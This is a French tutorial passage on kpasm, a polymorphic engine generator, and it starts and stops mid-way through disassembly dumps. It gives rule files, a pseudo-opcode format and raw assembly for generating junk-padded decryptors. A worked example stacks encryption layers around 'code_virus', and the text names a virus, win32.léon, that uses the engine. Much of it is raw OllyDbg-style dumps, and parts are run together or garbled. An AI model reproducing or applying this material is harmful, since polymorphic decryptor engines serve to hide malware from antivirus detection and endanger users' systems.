9C8D2EA4 ADD ECX,A42E8D9C 0040388B . BF 9C8D2EA4 MOV EDI,A42E8D9C 00403890 . 2BCF SUB ECX,EDI 00403892 . 58 POP EAX 00403893 . BD 07ADF4B7 MOV EBP,B7F4AD07 00403898 . 8B3D A7514000 MOV EDI,DWORD PTR DS:[4051A7] 0040389E . 8915 CF504000 MOV DWORD PTR DS:[4050CF],EDX 004038A4 . BF 9A00DFAA MOV EDI,AADF009A 004038A9 . 52 PUSH EDX 004038AA . BA 0EB3DDAA MOV EDX,AADDB30E 004038AF . 2BFA SUB EDI,EDX 004038B1 . 5A POP EDX 004038B2 . 893D CF504000 MOV DWORD PTR DS:[4050CF],EDI 004038B8 . 8B15 E7504000 MOV EDX,DWORD PTR DS:[4050E7] 004038BE . 8B3D 1B504000 MOV EDI,DWORD PTR DS:[40501B] 004038C4 . BF 97504000 MOV EDI,main.00405097 ; ASCII "'V" 004038C9 . 890F MOV DWORD PTR DS:[EDI],ECX 004038CB . 8B3D B3514000 MOV EDI,DWORD PTR DS:[4051B3] 004038D1 . C705 97504000 >MOV DWORD PTR DS:[405097],245627 004038DB . 2BEA SUB EBP,EDX 004038DD . 8B15 DB514000 MOV EDX,DWORD PTR DS:[4051DB] 004038E3 . 2BF5 SUB ESI,EBP 004038E5 . BF 58EEBC4D MOV EDI,4DBCEE58 004038EA . B9 7BC6B503 MOV ECX,3B5C67B 004038EF . 2BE9 SUB EBP,ECX 004038F1 . 81E9 B18F92CE SUB ECX,CE928FB1 004038F7 . 033D 67524000 ADD EDI,DWORD PTR DS:[405267] 004038FD . 8915 77504000 MOV DWORD PTR DS:[405077],EDX 00403903 . C705 77504000 >MOV DWORD PTR DS:[405077],2BBC26 0040390D . BA E5558EFC MOV EDX,FC8E55E5 00403912 . 2B15 E3514000 SUB EDX,DWORD PTR DS:[4051E3] 00403918 . 03FA ADD EDI,EDX 0040391A . 51 PUSH ECX 0040391B . 51 PUSH ECX 0040391C . 81E9 B215EDDB SUB ECX,DBED15B2 00403922 . 81E9 CF4108EA SUB ECX,EA0841CF 00403928 . 81E9 5DB121C2 SUB ECX,C221B15D 0040392E . 81E9 053BF2A7 SUB ECX,A7F23B05 00403934 . 81E9 F7400E54 SUB ECX,540E40F7 0040393A . 59 POP ECX 0040393B . 81E9 416AA9C7 SUB ECX,C7A96A41 00403941 . 59 POP ECX 00403942 . 56 PUSH ESI 00403943 . BE A92C377B MOV ESI,7B372CA9 00403948 . 8B15 E3524000 MOV EDX,DWORD PTR DS:[4052E3] 0040394E . 03F2 ADD ESI,EDX 00403950 . BA 3F524000 MOV EDX,main.0040523F 00403955 . 8B2A MOV EBP,DWORD PTR DS:[EDX] 00403957 . 53 PUSH EBX 00403958 . BB 470BA0C5 MOV EBX,C5A00B47 0040395D . 2BF3 SUB ESI,EBX 0040395F . 5B POP EBX 00403960 . 890D 57504000 MOV DWORD PTR DS:[405057],ECX 00403966 . 81E9 407A4EF8 SUB ECX,F84E7A40 0040396C . 8B0D 57504000 MOV ECX,DWORD PTR DS:[405057] 00403972 . C705 57504000 >MOV DWORD PTR DS:[405057],120755 0040397C . 890D 1F504000 MOV DWORD PTR DS:[40501F],ECX 00403982 . 81C1 301C06FD ADD ECX,FD061C30 00403988 . 8B0D 1F504000 MOV ECX,DWORD PTR DS:[40501F] 0040398E . C705 1F504000 >MOV DWORD PTR DS:[40501F],184129 00403998 . 03FE ADD EDI,ESI 0040399A . 5E POP ESI 0040399B . 8915 3B504000 MOV DWORD PTR DS:[40503B],EDX 004039A1 . 8915 C7514000 MOV DWORD PTR DS:[4051C7],EDX 004039A7 . C705 C7514000 >MOV DWORD PTR DS:[4051C7],3306C6 004039B1 . 8B15 3B504000 MOV EDX,DWORD PTR DS:[40503B] 004039B7 . 52 PUSH EDX 004039B8 . 8915 67524000 MOV DWORD PTR DS:[405267],EDX 004039BE . 57 PUSH EDI 004039BF . 81EF 4AFC96E7 SUB EDI,E796FC4A 004039C5 . 5F POP EDI 004039C6 . C705 67524000 >MOV DWORD PTR DS:[405267],2B6AF0 004039D0 . 8915 0B524000 MOV DWORD PTR DS:[40520B],EDX 004039D6 . C705 0B524000 >MOV DWORD PTR DS:[40520B],2418FE 004039E0 . 53 PUSH EBX 004039E1 . 81EB D48BA4A4 SUB EBX,A4A48BD4 004039E7 . 5B POP EBX 004039E8 . 8915 03534000 MOV DWORD PTR DS:[405303],EDX 004039EE . C705 03534000 >MOV DWORD PTR DS:[405303],0DF453 004039F8 . BA 5ED190F3 MOV EDX,F390D15E 004039FD . 0315 AB504000 ADD EDX,DWORD PTR DS:[4050AB] 00403A03 . 2B15 07524000 SUB EDX,DWORD PTR DS:[405207] 00403A09 . 8915 BB514000 MOV DWORD PTR DS:[4051BB],EDX 00403A0F . 52 PUSH EDX 00403A10 . 8915 53524000 MOV DWORD PTR DS:[405253],EDX 00403A16 . C705 53524000 >MOV DWORD PTR DS:[405253],3A3E7 00403A20 . 5A POP EDX 00403A21 . C705 BB514000 >MOV DWORD PTR DS:[4051BB],0B5695 00403A2B . 5A POP EDX 00403A2C . C705 3B504000 >MOV DWORD PTR DS:[40503B],1F8DD9 00403A36 . 890D 3B514000 MOV DWORD PTR DS:[40513B],ECX 00403A3C . C705 3B514000 >MOV DWORD PTR DS:[40513B],4E0C2 00403A46 . BA EFA18C6E MOV EDX,6E8CA1EF 00403A4B . 57 PUSH EDI 00403A4C . 50 PUSH EAX 00403A4D . B8 6A096B49 MOV EAX,496B096A 00403A52 . 2BF8 SUB EDI,EAX 00403A54 . 58 POP EAX 00403A55 . 5F POP EDI 00403A56 . 81C2 A799AC91 ADD EDX,91AC99A7 00403A5C . 56 PUSH ESI 00403A5D . 8935 CB504000 MOV DWORD PTR DS:[4050CB],ESI 00403A63 . C705 CB504000 >MOV DWORD PTR DS:[4050CB],749A1 00403A6D . 5E POP ESI 00403A6E . 0315 EB504000 ADD EDX,DWORD PTR DS:[4050EB] 00403A74 . 892A MOV DWORD PTR DS:[EDX],EBP 00403A76 . 81C2 4A030853 ADD EDX,5308034A 00403A7C . 57 PUSH EDI 00403A7D . BF E99E2553 MOV EDI,53259EE9 00403A82 . 2B3D 7F514000 SUB EDI,DWORD PTR DS:[40517F] 00403A88 . 2BD7 SUB EDX,EDI 00403A8A . 5F POP EDI 00403A8B . 53 PUSH EBX 00403A8C . 890D 7F514000 MOV DWORD PTR DS:[40517F],ECX 00403A92 . 81C1 3BBC7A89 ADD ECX,897ABC3B 00403A98 . 8B0D 7F514000 MOV ECX,DWORD PTR DS:[40517F] 00403A9E . C705 7F514000 >MOV DWORD PTR DS:[40517F],1D9B9F 00403AA8 . 891D 27524000 MOV DWORD PTR DS:[405227],EBX 00403AAE . 8B0D CB504000 MOV ECX,DWORD PTR DS:[4050CB] 00403AB4 . C705 27524000 >MOV DWORD PTR DS:[405227],318743 00403ABE . 5B POP EBX 00403ABF . C705 57504000 >MOV DWORD PTR DS:[405057],120755 00403AC9 . 03F7 ADD ESI,EDI 00403ACB . 50 PUSH EAX 00403ACC . B8 B24FD4BB MOV EAX,BBD44FB2 00403AD1 . 53 PUSH EBX 00403AD2 . BB 2E25C036 MOV EBX,36C0252E 00403AD7 . 2BD3 SUB EDX,EBX 00403AD9 . 5B POP EBX 00403ADA . 05 4CC8D92E ADD EAX,2ED9C84C 00403ADF . 8B2D D7514000 MOV EBP,DWORD PTR DS:[4051D7] 00403AE5 . 57 PUSH EDI 00403AE6 . 893D C7514000 MOV DWORD PTR DS:[4051C7],EDI 00403AEC . C705 C7514000 >MOV DWORD PTR DS:[4051C7],3306C6 00403AF6 . 5F POP EDI 00403AF7 . 05 8427F7A1 ADD EAX,A1F72784 00403AFC . BD 45000000 MOV EBP,45 00403B01 > 55 PUSH EBP 00403B02 . 81ED 9F8139EA SUB EBP,EA39819F 00403B08 . BA E1F583FD MOV EDX,FD83F5E1 00403B0D . 2BEA SUB EBP,EDX 00403B0F . 81ED DB1B9749 SUB EBP,49971BDB 00403B15 . 81ED 0D021A81 SUB EBP,811A020D 00403B1B . 81ED 3EBF9842 SUB EBP,4298BF3E 00403B21 . 5D POP EBP 00403B22 . B9 01000000 MOV ECX,1 00403B27 . 2BE9 SUB EBP,ECX 00403B29 . 2BC9 SUB ECX,ECX 00403B2B . 3BE9 CMP EBP,ECX 00403B2D .^75 D2 JNZ SHORT main.00403B01 00403B2F . 55 PUSH EBP 00403B30 . BF 7751AF43 MOV EDI,43AF5177 00403B35 . 2BEF SUB EBP,EDI 00403B37 . 5D POP EBP 00403B38 . BA E7A17199 MOV EDX,9971A1E7 00403B3D . 56 PUSH ESI 00403B3E . BE 34503199 MOV ESI,99315034 00403B43 . 2BD6 SUB EDX,ESI 00403B45 . 5E POP ESI 00403B46 . 892A MOV DWORD PTR DS:[EDX],EBP 00403B48 . BF AE497B40 MOV EDI,407B49AE 00403B4D . 56 PUSH ESI 00403B4E . BA 61044709 MOV EDX,9470461 00403B53 . 2BF2 SUB ESI,EDX 00403B55 . 5E POP ESI 00403B56 . 81EF 25DF4D40 SUB EDI,404DDF25 00403B5C . B9 182A7800 MOV ECX,782A18 00403B61 . 2B0D 0B504000 SUB ECX,DWORD PTR DS:[40500B] 00403B67 . 8939 MOV DWORD PTR DS:[ECX],EDI 00403B69 . 81C1 FD040D5E ADD ECX,5E0D04FD 00403B6F . 81E9 FD040D5E SUB ECX,5E0D04FD 00403B75 . 05 7FC05A73 ADD EAX,735AC07F 00403B7A . BD A0995200 MOV EBP,5299A0 ; UNICODE "siers..." 00403B7F . 8B15 1B504000 MOV EDX,DWORD PTR DS:[40501B] 00403B85 . 2B2D 0B514000 SUB EBP,DWORD PTR DS:[40510B] 00403B8B . 894D 00 MOV DWORD PTR SS:[EBP],ECX 00403B8E . BA 3EB02312 MOV EDX,1223B03E 00403B93 . 03EA ADD EBP,EDX 00403B95 . BA 3EB02312 MOV EDX,1223B03E 00403B9A . 2BEA SUB EBP,EDX 00403B9C . 81EF E63137D1 SUB EDI,D13731E6 00403BA2 . BF 3F504000 MOV EDI,main.0040503F 00403BA7 . 890F MOV DWORD PTR DS:[EDI],ECX 00403BA9 . BF F0E86600 MOV EDI,66E8F0 00403BAE . 2B3D 8F504000 SUB EDI,DWORD PTR DS:[40508F] 00403BB4 . 893D 3F504000 MOV DWORD PTR DS:[40503F],EDI 00403BBA . BF 29F33000 MOV EDI,30F329 00403BBF . 2B3D B7524000 SUB EDI,DWORD PTR DS:[4052B7] 00403BC5 . 033D F3524000 ADD EDI,DWORD PTR DS:[4052F3] 00403BCB . 8B0F MOV ECX,DWORD PTR DS:[EDI] 00403BCD . 81C1 50C93276 ADD ECX,7632C950 00403BD3 . 52 PUSH EDX 00403BD4 . 81EA 5B9DDF2A SUB EDX,2ADF9D5B 00403BDA . 5A POP EDX 00403BDB . 56 PUSH ESI 00403BDC . 81EE BF6F9297 SUB ESI,97926FBF 00403BE2 . 5E POP ESI 00403BE3 . 81E9 50C93276 SUB ECX,7632C950 00403BE9 . BA 187F0F00 MOV EDX,0F7F18 00403BEE . 0315 5B524000 ADD EDX,DWORD PTR DS:[40525B] 00403BF4 . 8B2D 9B514000 MOV EBP,DWORD PTR DS:[40519B] 00403BFA . 0315 4F514000 ADD EDX,DWORD PTR DS:[40514F] 00403C00 . 8915 63514000 MOV DWORD PTR DS:[405163],EDX 00403C06 . 2BD8 SUB EBX,EAX 00403C08 . 58 POP EAX 00403C09 . 55 PUSH EBP 00403C0A . 52 PUSH EDX 00403C0B . 81EA 9B62318A SUB EDX,8A31629B 00403C11 . 5A POP EDX 00403C12 . 892D 7F524000 MOV DWORD PTR DS:[40527F],EBP 00403C18 . 51 PUSH ECX 00403C19 . 55 PUSH EBP 00403C1A . BD C607A32E MOV EBP,2EA307C6 00403C1F . 2BCD SUB ECX,EBP 00403C21 . 5D POP EBP 00403C22 . 81E9 7B62BD4F SUB ECX,4FBD627B 00403C28 . 81E9 F3D5F73D SUB ECX,3DF7D5F3 00403C2E . 81E9 EEB08341 SUB ECX,4183B0EE 00403C34 . 51 PUSH ECX 00403C35 . 81E9 BC7D3B12 SUB ECX,123B7DBC 00403C3B . 59 POP ECX 00403C3C . 81E9 3EBBBDC5 SUB ECX,C5BDBB3E 00403C42 . 59 POP ECX 00403C43 . C705 7F524000 >MOV DWORD PTR DS:[40527F],27ABD2 00403C4D . 5D POP EBP 00403C4E . 2BFF SUB EDI,EDI 00403C50 . 8BD7 MOV EDX,EDI 00403C52 . 3BDA CMP EBX,EDX 00403C54 . BA 95A3D1FF MOV EDX,FFD1A395 00403C59 . 81EF F497A796 SUB EDI,96A797F4 00403C5F . 8B3D A3514000 MOV EDI,DWORD PTR DS:[4051A3] 00403C65 . 03D7 ADD EDX,EDI 00403C67 . 57 PUSH EDI 00403C68 . 81EF D95829FE SUB EDI,FE2958D9 00403C6E . 5F POP EDI 00403C6F . 51 PUSH ECX 00403C70 . BF BF514000 MOV EDI,main.004051BF 00403C75 . 890F MOV DWORD PTR DS:[EDI],ECX 00403C77 . BF 3B1E1F00 MOV EDI,1F1E3B 00403C7C . 893D BF514000 MOV DWORD PTR DS:[4051BF],EDI 00403C82 . 59 POP ECX 00403C83 . 0315 13534000 ADD EDX,DWORD PTR DS:[405313] 00403C89 . 892A MOV DWORD PTR DS:[EDX],EBP 00403C8B . 8B15 E3524000 MOV EDX,DWORD PTR DS:[4052E3] 00403C91 . B9 9B165C00 MOV ECX,5C169B 00403C96 . 2B0D B7524000 SUB ECX,DWORD PTR DS:[4052B7] 00403C9C . 8939 MOV DWORD PTR DS:[ECX],EDI 00403C9E . B9 888C2500 MOV ECX,258C88 00403CA3 . 030D 9F524000 ADD ECX,DWORD PTR DS:[40529F] 00403CA9 . 890D 3F524000 MOV DWORD PTR DS:[40523F],ECX 00403CAF . BA BF514000 MOV EDX,main.004051BF 00403CB4 . 892A MOV DWORD PTR DS:[EDX],EBP 00403CB6 . 8B0D 83514000 MOV ECX,DWORD PTR DS:[405183] 00403CBC . 53 PUSH EBX 00403CBD . BF 7E6C17DA MOV EDI,DA176C7E 00403CC2 . 2BDF SUB EBX,EDI 00403CC4 . 5B POP EBX 00403CC5 . 81C2 CC76C046 ADD EDX,46C076CC 00403CCB . BF 23514000 MOV EDI,main.00405123 00403CD0 . 8B0F MOV ECX,DWORD PTR DS:[EDI] 00403CD2 . B9 67E2372F MOV ECX,2F37E267 00403CD7 . 81C1 65948817 ADD ECX,17889465 00403CDD . 53 PUSH EBX 00403CDE . 81EB 8D7AAF37 SUB EBX,37AF7A8D 00403CE4 . 5B POP EBX 00403CE5 . 2BD1 SUB EDX,ECX 00403CE7 . 8B3D 2B524000 MOV EDI,DWORD PTR DS:[40522B] 00403CED . C705 BF514000 >MOV DWORD PTR DS:[4051BF],1F1E3B 00403CF7 . BF F031E9EF MOV EDI,EFE931F0 00403CFC . 033D 5F524000 ADD EDI,DWORD PTR DS:[40525F] 00403D02 . 8B0D 7B524000 MOV ECX,DWORD PTR DS:[40527B] 00403D08 . 8B0D F3524000 MOV ECX,DWORD PTR DS:[4052F3] 00403D0E . 81C7 1B5B6E2E ADD EDI,2E6E5B1B 00403D14 . 8915 43524000 MOV DWORD PTR DS:[405243],EDX 00403D1A . 52 PUSH EDX 00403D1B . 51 PUSH ECX 00403D1C . B9 E0D3C344 MOV ECX,44C3D3E0 00403D21 . 2BD1 SUB EDX,ECX 00403D23 . 59 POP ECX 00403D24 . 5A POP EDX 00403D25 . C705 43524000 >MOV DWORD PTR DS:[405243],25DA3E 00403D2F . BA 8F541A1E MOV EDX,1E1A548F 00403D34 . 0315 37514000 ADD EDX,DWORD PTR DS:[405137] 00403D3A . 2BFA SUB EDI,EDX 00403D3C . 8B2F MOV EBP,DWORD PTR DS:[EDI] 00403D3E . 57 PUSH EDI 00403D3F . 893D 07504000 MOV DWORD PTR DS:[405007],EDI 00403D45 . C705 07504000 >MOV DWORD PTR DS:[405007],2E5D7A 00403D4F . 5F POP EDI 00403D50 . BA 844B3CFD MOV EDX,FD3C4B84 00403D55 . 81EA D3C2F6C8 SUB EDX,C8F6C2D3 00403D5B . 03EA ADD EBP,EDX 00403D5D . 8B15 E7524000 MOV EDX,DWORD PTR DS:[4052E7] 00403D63 . B9 4978FBDA MOV ECX,DAFB7849 00403D68 . 81C1 493D14BA ADD ECX,BA143D49 00403D6E . 57 PUSH EDI 00403D6F . 50 PUSH EAX 00403D70 . B8 0747209C MOV EAX,9C204707 00403D75 . 2BF8 SUB EDI,EAX 00403D77 . 58 POP EAX 00403D78 . 5F POP EDI 00403D79 . 81E9 E12CCA60 SUB ECX,60CA2CE1 00403D7F . 2BE9 SUB EBP,ECX 00403D81 . B9 B1C31C67 MOV ECX,671CC3B1 00403D86 . 56 PUSH ESI 00403D87 . 8935 13504000 MOV DWORD PTR DS:[405013],ESI 00403D8D . C705 13504000 >MOV DWORD PTR DS:[405013],35FAC5 00403D97 . 5E POP ESI 00403D98 . 81E9 7E71DC66 SUB ECX,66DC717E 00403D9E . 8B39 MOV EDI,DWORD PTR DS:[ECX] 00403DA0 . C705 FB514000 >MOV DWORD PTR DS:[4051FB],380B8F 00403DAA . 2BFF SUB EDI,EDI 00403DAC . 3BFB CMP EDI,EBX 00403DAE . 74 05 JE SHORT main.00403DB5Je répete, mais on sait jamais, ce qu'il faut regarder ce n'est pas la qualité du poly, là c'est un exemple. Ce qu'il faut voir c'est que ca a été fait en même pas une heure, et que rajouter une règle ne me prendrait même pas 1 minute.
Nous allons détailler également le format des pseudo-opcodes utilisés par kpasm. En effet, le grand avantage des poly engines qui prennent non pas du code binaire mais du pseudo-code en entrée, est la possibilité de modifier facilement ce pseudo-code. Dans win32.léon par exemple, je modifie le pseudo-code avant d'appeler poly_asm.
Enfin, je vais décrire quelques un des algorithmes de kpasm, histoire que vous sachiez exactement ce que vous faites. Pas d'exemple pour ce chapitre-ci.
sub_reg_cst(travail,TODOdollar([ebp+cle]));Cette syntaxe, $(xxx) permet d'acceder à une expression exterieure au fichier de règle. Ici par exemple, $([ebp+cle]) est remplacé par la valeur [ebp+cle] au moment de l'execution du poly.
Vous pouvez mettre ce que vous voulez entre les parentheses, des constantes, des registres, des variables. En fait, au niveau du code du poly engine, ça revient à faire si plus ni moins un mov registre_qui_va_bien,xxx. Comme c'est comme un mov, il faut néanmoins respecter les points suivants:
RAW (<taille>) ASM
{
<instructions asm>
};
Où <instructions asm> est du code source asm dans la syntaxe tasm ou fasm, et <taille> est un entier représentant la taille du code binaire en octets que cette portion de code écrira à l'exécution. Nous y reviendront.
Kpasm ne compile pas le code asm présent dans <intructions asm>, attention aux bugs donc, il ne seront visibles qu'à l'assemblage. Kpasm recopie le code presque tel dans le code source asm du poly engine généré (regardez dans poly_assembleur.asm). Presque tel quel, car il va :
ma_transfo(parametre1:entier,parametre2:entier)
{
1: DEFAUT
{
lock(freereg0,varlockee);
RAW (5) ASM
{
movzx eax,byte ptr 0B8h
or eax,varlockee
stosb
mov eax,parametre1
stosd
}
};
Cela donnera, dans le fichier poly_assembleur.asm, le code asm suivant:
; ASM code from line 15
movzx eax,byte ptr 0B8h
or eax,[ebp+locked_varlockee]
stosb
mov eax,[esi+4+8]
stosd
; END of asm code
Il faut cependant respecter certaines contraintes et croiser les doigts pour que tout se passe bien :
Inclure du code asm directement dans la règle peut se révéler utile pour plusieurs raisons:
ecritJunk1Octet()
{
1:DEFAUT
{
RAW (1) ASM {
jmp over_tableau
tableau:
clc
stc
nop
cld
std
over_tableau:
mov eax,6
call poly_rand_int ; choisit un nombre entre 0 et 5
mov al,byte ptr [ebp+tableau+eax]
stosb
}
}
}
Et ca, croyez-moi, c'est bien plus optimisé que X règles successives pour chaque opcode de junk.
Structure d'un pseudo-opcode:
- opcode (1 octet) ; L'opcode en question. Pour les #defines, regarder dans
; poly_defines.inc.
- nb_arg (1 octet) ; Le nombre d'arguments que prend ce pseudo-opcode. Ca pue
; un peu de l'inclure ici mais bon.
Répeter nb_arg fois:
- type_a (1 octet) ; Le type de l'argument. Peut etre TYPE_REGISTRE,
; TYPE_ADRESSE ou TYPE_ENTIER
- arg_v (1 dword) ; La valeur de l'argument
Comme vous pouvez le voir, la structure de l'opcode est excessivement simple. Vous ne devriez pas avoir trop de soucis à insérer dynamiquement des pseudo-opcodes.
Cette règle, que l'on nommera , est choisie selon sa probabilité via la formule . A partir de là, plusieurs scénarios sont possibles:
Dans le cas contraire enfin, si l'espace requis par la règle est disponibles, si ses ressources utilisées sont disponibles, la règle est executée.
Seulement, cela ne nous dit pas comment, au sein d'une transformation (appelons-la T), l'espace disponible est géré. En fait, kpasm optimise au mieux l'espace dispo pour que :
T ; un seul pseudo-opcode à polymorphiser FIN_DECRYPTEURLe fichier de règles quant-à lui est le suivant:
T()
{
1:DEFAUT {
A();
B();
C();
write32(0xDEADBABE);
}
}
A()
{
1:DEFAUT { //regle par defaut de A : 4 octets
write32(0xDEADBEEF);
}
B()
{
99: {
write8(0x12);
B(); //appel recursif
}
0: DEFAUT { //regle par defaut de B : 1 octet
write8(0x34);
}
C()
{
2: {
write8(0x11);
C();
}
1:DEFAUT { // regle par defaut de C : 2 octets
write16(0x1234);
}
}
Et puis c'est tout, vu que la regle par defaut de A ne fait rien d'autre. Sur les 7 octets réservés, A n'en aura consommé que 4. Les 3 octets restants seront donc redistribués:
Rentrons donc dans B. Le poly engine choisit une règle, celle de proba 99. En effet, 5 octets sont disponibles et cette règle produit du code binaire d'une taille minimum de 2 octets (si on fait B->0x12+(B->0x34)). De plus, la règle par défaut a une proba de 0. Donc:
Nous supposerons que l'execution est la suivante : règle de proba 2 (récursive), puis regle de proba 2 (récursive), puis règle par defaut et on s'arrete. Finalement le code 0x11 0x11 0x1234 a été écrit, donc 4 octets ont été consommés sur les 6.
Seulement, les deux octets non-consommés ici ne pourront être redistribués, il n'y a plus de transformation à qui les redonner. Tant pis. Le poly engine execute finalement le write32 situé à la fin de la transfo T et s'arrête. Au final, 18 octets ont été consommés sur les 20 autorisés, c'est déjà pas mal. Et aucune transformation n'a débordé: ca, c'est encore mieux.
Pour ce faire, nous allons réutiliser l'ensemble des techniques aperçues dans ce tutoriel: la mémoire, les boucles, l'inclusion d'asm etc. Ce chapitre aura donc la fonction de dernier récapitulatif. Pour la suite, je laisse la main à votre imagination.
NB: Si vous voulez un exemple un tout petit peu plus poussé, vous pouvez également jeter un oeil au code source du FATme, présent sur le site. Y'a un petit millier de décrypteurs répartis dans 100 branches, qui sont générés via kpasm.
Une petite note pendant que j'y pense, car on me l'a déjà demandé et parfois j'ai l'impression que c'est pas clair. Si vous deviez vous servir de cet exemple dans un vrai crackme, que feriez-vous?
pseudo_code:
moulte_layers
FIN_DECRYPTEUR
Le fichier main.asm quant à lui est encore très simple et similaire aux précédents:
moulte_layers()
{
10:
{
decrypteur(label0,((label1-label0)>>2)+1,rndint0);
label0;
moulte_layers();
label1;
encrypte(label0,((label1-label0)>>2)+1,rndint0);
}
0:DEFAUT
{
decrypteur(TODOdollar(offset code_virus),TODOdollar(taille_code_virus),TODOdollar(cle));
}
}
C'est grâce à cette transformation très simple que nos layers vont pouvoir s'empiler si facilement. L'algorithme de cette transformation est très simple :
On peut distinguer deux règles dans cette transformation:
decrypteur(debut:entier,taille_sur_4:entier,cle:entier)
{
//freereg0 : pointeur vers le code à décrypter
//freereg1 : registre de boucle
//freereg2 : registre de travail
1:
{
mov_reg_cst(freereg0,debut);
junk();
mov_reg_cst(freereg1,taille_sur_4);
label0;
mov_reg_regi(freereg2,freereg0);
junk();
sub_reg_cst(freereg2,cle);
junk();
mov_regi_reg(freereg0,freereg2);
add_reg_cst(freereg0,4);
junk();
sub_reg_cst(freereg1,1);
junk();
saut_nz(freereg1,label0);
}
//rndreg0 : pointeur vers le code à décrypter
//rndreg1 : registre de boucle
//rndreg2 : registre de travail
0:DEFAUT
{
push_reg(rndreg0);
junk();
push_reg(rndreg1);
junk();
push_reg(rndreg2);
mov_reg_cst(rndreg0,debut);
mov_reg_cst(rndreg1,taille_sur_4);
label0;
mov_reg_regi(rndreg2,rndreg0);
junk();
sub_reg_cst(rndreg2,cle);
junk();
mov_regi_reg(rndreg0,rndreg2);
add_reg_cst(rndreg0,4);
junk();
sub_reg_cst(rndreg1,1);
junk();
saut_nz(rndreg1,label0);
pop_reg(rndreg2);
junk();
pop_reg(rndreg1);
junk();
pop_reg(rndreg0);
}
}
Rien de très original. Comme vous pouvez le constater, elle va produire un décrypteur décryptant via un sub la mémoire à l'adresse debut. taille_sur_4 dword vont être décryptés, avec pour clé le paramètre cle.
Après, pourquoi deux règles dans cette transformations me direz-vous ?
Pour encrypter le code générer, kpasm n'offre pas de mécanisme tout fait. La seule solution est donc d'inclure directement de l'asm dans le poly engine. Le code asm, très simple est le suivant :
encrypte(debut:entier,taille_sur_4:entier,cle:entier)
{
//RAW(0) car ne produit aucun code binaire (0 octets de produits)
RAW(0) ASM {
pusha
mov edi,debut
mov ecx,taille_sur_4
.1: mov eax,[edi]
add eax,cle
stosd
loop .1
popa
}
}
Pas très compliqué hein. Ne pas oublier de sauvegarder les registres esi et edi si ils sont modifiés. On notera également que kpasm
permet d'acceder aux paramètres de la transformation directement depuis l'asm, comme on l'a vu au chapitre précédent.
00417123 . BD F25CF200 MOV EBP,0F25CF2 00417128 . 81ED EDEAB000 SUB EBP,0B0EAED 0041712E . 8B15 CF024300 MOV EDX,DWORD PTR DS:[4302CF] ; main.00403BCC 00417134 . B8 21600000 MOV EAX,6021 00417139 > 8B5D 00 MOV EBX,DWORD PTR SS:[EBP] 0041713C . 57 PUSH EDI 0041713D . BF B3F1F642 MOV EDI,42F6F1B3 00417142 . 5F POP EDI 00417143 . 81EB E193B286 SUB EBX,86B293E1 00417149 . 895D 00 MOV DWORD PTR SS:[EBP],EBX 0041714C . 51 PUSH ECX 0041714D . 890D 17004300 MOV DWORD PTR DS:[430017],ECX 00417153 . C705 17004300 >MOV DWORD PTR DS:[430017],0D33A 0041715D . 890D 57024300 MOV DWORD PTR DS:[430257],ECX 00417163 . 52 PUSH EDX 00417164 . BF 8F5FBE24 MOV EDI,24BE5F8F 00417169 . 8915 AB014300 MOV DWORD PTR DS:[4301AB],EDX 0041716F . C705 AB014300 >MOV DWORD PTR DS:[4301AB],1482BB 00417179 . 5A POP EDX 0041717A . C705 57024300 >MOV DWORD PTR DS:[430257],10AB20 00417184 . 59 POP ECX 00417185 . 81C5 04000000 ADD EBP,4 0041718B . B9 4E9E3B00 MOV ECX,3B9E4E 00417190 . 8B35 5F004300 MOV ESI,DWORD PTR DS:[43005F] 00417196 . 2BCE SUB ECX,ESI 00417198 . 2BC1 SUB EAX,ECX 0041719A . 8915 9B024300 MOV DWORD PTR DS:[43029B],EDX 004171A0 . 81EA F7CFCE48 SUB EDX,48CECFF7 004171A6 . 8B15 9B024300 MOV EDX,DWORD PTR DS:[43029B] 004171AC . C705 9B024300 >MOV DWORD PTR DS:[43029B],302DDF 004171B6 . BA 2B004300 MOV EDX,main.0043002B 004171BB . 890A MOV DWORD PTR DS:[EDX],ECX 004171BD . 81C1 E724F9B5 ADD ECX,B5F924E7 004171C3 . BE AA293900 MOV ESI,3929AA 004171C8 . 8B3D 03024300 MOV EDI,DWORD PTR DS:[430203] 004171CE . 2BF7 SUB ESI,EDI 004171D0 . 0335 C7004300 ADD ESI,DWORD PTR DS:[4300C7] 004171D6 . 8B0E MOV ECX,DWORD PTR DS:[ESI] 004171D8 . BE 248B16C3 MOV ESI,C3168B24 004171DD . 81C6 1CB1EE3C ADD ESI,3CEEB11C 004171E3 . 8B3D D7024300 MOV EDI,DWORD PTR DS:[4302D7] 004171E9 . 0335 B7014300 ADD ESI,DWORD PTR DS:[4301B7] 004171EF . 2B35 FF024300 SUB ESI,DWORD PTR DS:[4302FF] 004171F5 . 8935 2B004300 MOV DWORD PTR DS:[43002B],ESI 004171FB . 83F8 00 CMP EAX,0 004171FE . 74 05 JE SHORT main.00417205 00417200 .^E9 34FFFFFF JMP main.00417139 00417205 > AD LODS DWORD PTR DS:[ESI] 00417206 . 4E DEC ESI 00417207 E8 DB E8 00417208 E0 DB E0 00417209 33 DB 33 ; CHAR '3' 0041720A 4B DB 4B ; CHAR 'K' 0041720B 34 DB 34 ; CHAR '4' 0041720C 49 DB 49 ; CHAR 'I'
Et après exécution :
00417123 . BD F25CF200 MOV EBP,0F25CF2 00417128 . 81ED EDEAB000 SUB EBP,0B0EAED 0041712E . 8B15 CF024300 MOV EDX,DWORD PTR DS:[4302CF] ; main.00403BCC 00417134 . B8 21600000 MOV EAX,6021 00417139 > 8B5D 00 MOV EBX,DWORD PTR SS:[EBP] 0041713C . 57 PUSH EDI 0041713D . BF B3F1F642 MOV EDI,42F6F1B3 00417142 . 5F POP EDI 00417143 . 81EB E193B286 SUB EBX,86B293E1 00417149 . 895D 00 MOV DWORD PTR SS:[EBP],EBX 0041714C . 51 PUSH ECX 0041714D . 890D 17004300 MOV DWORD PTR DS:[430017],ECX 00417153 . C705 17004300 >MOV DWORD PTR DS:[430017],0D33A 0041715D . 890D 57024300 MOV DWORD PTR DS:[430257],ECX 00417163 . 52 PUSH EDX 00417164 . BF 8F5FBE24 MOV EDI,24BE5F8F 00417169 . 8915 AB014300 MOV DWORD PTR DS:[4301AB],EDX 0041716F . C705 AB014300 >MOV DWORD PTR DS:[4301AB],1482BB 00417179 . 5A POP EDX 0041717A . C705 57024300 >MOV DWORD PTR DS:[430257],10AB20 00417184 . 59 POP ECX 00417185 . 81C5 04000000 ADD EBP,4 0041718B . B9 4E9E3B00 MOV ECX,3B9E4E 00417190 . 8B35 5F004300 MOV ESI,DWORD PTR DS:[43005F] 00417196 . 2BCE SUB ECX,ESI 00417198 . 2BC1 SUB 